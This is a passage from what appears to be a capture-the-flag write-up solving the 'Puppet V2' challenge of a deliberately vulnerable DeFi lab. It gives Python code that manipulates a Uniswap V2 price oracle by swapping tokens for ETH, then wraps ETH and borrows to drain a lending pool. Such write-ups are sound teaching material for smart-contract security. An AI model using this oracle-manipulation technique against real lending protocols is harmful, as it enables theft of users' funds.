 The steps to perform the attack are really similar to those of the Puppet challenge:

First we must approve the token spending limit for the Uniswap V2 router:

```py
token.approve(uniswap_router.address, 2**256 - 1, _fromAttacker)
```

Then exchange all the tokens in our wallet for ETH:

```py
uniswap_router.swapExactTokensForETH(
    ether_to_wei(10000), 
    9.92, 
    [token.address, weth.address],
    attacker.address,
    web3.eth.get_block('latest').timestamp * 2,
    _fromAttacker
)
```

`swapTokensForExactTokens()` can also be used, as we're going to use WETH anyway, but we would have to wrap some extra ETH to reach the right amount to drain the pool anyway, so I decided to just use `swapExactTokensForETH()`.

Then obtain what amount of WETH we must deposit to drain the pool:

```py
amount = lending_pool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)
```

Deposit this same amount into the WETH contract:

```py
weth.deposit(_fromAttacker | value_dict(amount))
```

Now with the WETH in hand we must approve the spending limit of WETH for the PuppetV2Pool contract to the `amount` obtained before (or more):

```py
weth.approve(lending_pool.address, amount, _fromAttacker)
```

Given that the PuppetV2Pool calls `transferFrom()` in `borrow()`:

```cs
_weth.transferFrom(msg.sender, address(this), depositOfWETHRequired);
```

Then just call borrow to drain the pool:

```py
lending_pool.borrow(POOL_INITIAL_TOKEN_BALANCE, _fromAttacker)
```

And we should receive all the DVT tokens from the pool.

***

## Free rider
